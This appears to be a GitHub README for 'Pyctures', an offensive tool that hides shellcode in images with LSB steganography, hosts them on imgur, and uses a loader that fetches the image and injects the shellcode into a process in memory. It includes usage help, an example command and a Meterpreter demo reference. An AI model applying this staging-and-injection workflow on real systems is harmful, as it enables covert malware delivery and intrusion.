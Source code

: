 **What about the loader ?**

Pyctures brings a simple PoC shellcode from LSB loader. It gets the image using imgur's api by passing image's id and title. Image's title is the name of the image (shellcode's size). Image is processed in memory using a IOBytes python object, it never touches the disk. Shellcode is rebuilt and injected in a process using the classic method _[VirtualAllocEx](https://docs.microsoft.com/en-us/windows/win32/api/memoryapi/nf-memoryapi-virtualallocex)_, _[WriteProcessMemory](https://docs.microsoft.com/en-us/windows/win32/api/memoryapi/nf-memoryapi-writeprocessmemory)_, _[CreateRemoteThread](https://docs.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-createremotethread)_.

## Usage

**How to use it ?**

```
usage: pyctures.py [-h] -s FILE -p PICTURE [-i ID] [-l]

Embed shellcode into a picture using LSB

optional arguments:
  -h, --help            show this help message and exit
  -s FILE, --shellcode FILE
                        Path to raw shellcode
  -p PICTURE, --picture PICTURE
                        Picture to inject shellcode into
  -i ID, --imgur-client-id ID
                        imgur client id to upload picture
  -l, --loader          Build loader
```

```
$ python pyctures.py -s shellcode.bin -p cat.png -i ImgurClientId -l
```

## Demo

<img src="img/meterpreter.gif">

<br>
<p align=center>Made with ❤️ by <a href="https://twitter.com/_atsika">Atsika</a> & <a href="https://twitter.com/MatthewsSean6">Leco</a></p>